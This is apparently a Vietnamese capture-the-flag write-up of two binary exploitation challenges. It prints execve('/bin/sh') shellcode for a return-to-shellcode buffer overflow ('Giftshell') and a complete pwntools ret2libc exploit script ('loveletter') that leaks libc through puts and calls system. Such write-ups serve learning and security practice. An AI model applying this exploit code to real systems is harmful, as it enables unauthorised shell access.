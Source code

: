  
 
 
### 1. Giftshell
**Tóm tắt đề :**

1 file giftshell để chạy trên linux 

**Ý tưởng:**

- Đầu tiên mình sài IDA để decompile

![](https://i.imgur.com/TBsp4PM.png)

- Nhận thấy có lỗi buffer overflow do biến `buf` khai báo có 112 byte mà nhập tới 128 byte, cùng với việc đề leak địa chỉ biến `buf` ra ở `printf` thì khá chắc chắn là lỗi return to shellcode
- Vậy ta sẽ sử dụng địa chỉ biến `buf` bị leak để ret về đó, từ địa chỉ biến buf trở về sau chính là shell code của ta.
- Do mình lười nên lên mạng chép mã assembly để lấy shell, ở đây mình lên dreamhack để lấy.



    mov rax, 0x68732f6e69622f
    push rax
    mov rdi, rsp  ;
    xor rsi, rsi  ;
    xor rdx, rdx  ; 
    mov rax, 0x3b ;
     syscall ;
    
- Phần padding còn lại mình fill bằng byte `\x90` tức là `nop` trong assembly x86.
- Kế tiếp ta vào gdb để tìm offset cho ret. Ở đây ta được 120. 

![](https://i.imgur.com/9KcRPR0.png)

- Tiếp theo ta tìm số bytes của shellcode. Chạy script dưới ta được số byte là 29.

![](https://i.imgur.com/NPr8ND5.png)

- Do đó thứ tự payload sẽ là 29 byte shellcode, 91 byte nop và cuối cùng là 8 byte địa chỉ để ret vào. Vậy giờ ta sẽ viết script để viết ý tưởng trên. 

![](https://i.imgur.com/zFMHWrS.png)

- Chạy script trên ta đã lấy được shell.

### 2. loveletter
**Tóm tắt đề :**
- 1 file source 
- 1 file dockerfile
- 1 file docker-compose 

**Ý tưởng :**
- Đầu tiên mình decompile bằng IDA.

![](https://i.imgur.com/zflRfBI.png)

- Ta thấy control flow của chương trình như sau : chạy hàm loveletter -> yêu cầu nhập -> chạy hàm doubt -> nếu chọn Y thì sẽ set buffer cho biến `v1`, còn không thì chưa rõ do không khai báo.
- Tới đây ta cần phân tích rõ thứ tự các biến trong stack để coi có ghi đè được biến `v1` không vì khi đó ta sẽ tuỳ ý chọn số byte để nhập.
- Ta nhận thấy biến `v1` của hàm `loveletter` tức là mảng `buff[MAX_BUFFER + 69]` trong source và biến v1 của hàm `doubt` gần nhau. Ta có phân tích như sau:

![](https://i.imgur.com/xxLXtTB.png)

- Khi ta nhập full byte của biến `buf` trong hàm `loveletter` rồi chuyển qua hàm `doubt`, do biến `v1` không khai báo nên sẽ nhận giá trị ở vị trí `rsp+0xC` (stack không clear sau khi thực hiện xong hàm). Ta sẽ lợi dụng điều này để lấy shell.
- Do EX đã tắt và đây là file ELF 64 bit nên ta sẽ làm theo dạng return2libc 64bit

![](https://i.imgur.com/DUobQxU.png)

- Do đây là dạng cơ bản nên ta chỉ cần tìm gadget của từng phần viết script.

![](https://i.imgur.com/4ZQeiY2.png)

- Kết hợp tất cả thông tin rồi ta sẽ viết được script này


    from pwn import *
    
    context.binary = exe = ELF('./main', checksec=False)
    libc = ELF('libc.so.6', checksec=False)
    p = process(exe.path) 
    p.sendafter(b'> ', b'A'*4000) 
    p.sendafter(b'> ', b'A'*2969)
    
    p.recvuntil(b'?\n')
    p.sendafter(b'> ', b'Y')
    payload = b'A'*264
    pop_rdi = 0x00000000004014b3
    payload += p64(pop_rdi) + p64(exe.got['puts'])
    payload += p64(exe.plt['puts'])
    payload += p64(exe.sym['main'])
    
    p.recvuntil(b'w.\n')
    p.sendafter(b'> ', payload)
    p.recvuntil(b'!\n')
    libc_leak = u64(p.recv(6) + b'\x00\x00')
    libc.address = libc_leak - libc.sym['puts']
    
    p.sendafter(b'> ', b'A'*4000) 
    p.sendafter(b'> ', b'A'*2969)
    p.recvuntil(b'letter?\n')
    p.sendafter(b'> ', b'Y')
    
    ret = 0x000000000040101a
    payload = b'A'*264 + p64(ret)
    payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
    payload += p64(libc.sym['system'])
    p.recvuntil(b'now.\n')
    p.sendafter(b'> ', payload)
    p.interactive()
    

- Chạy thử và ta sẽ có được shell.
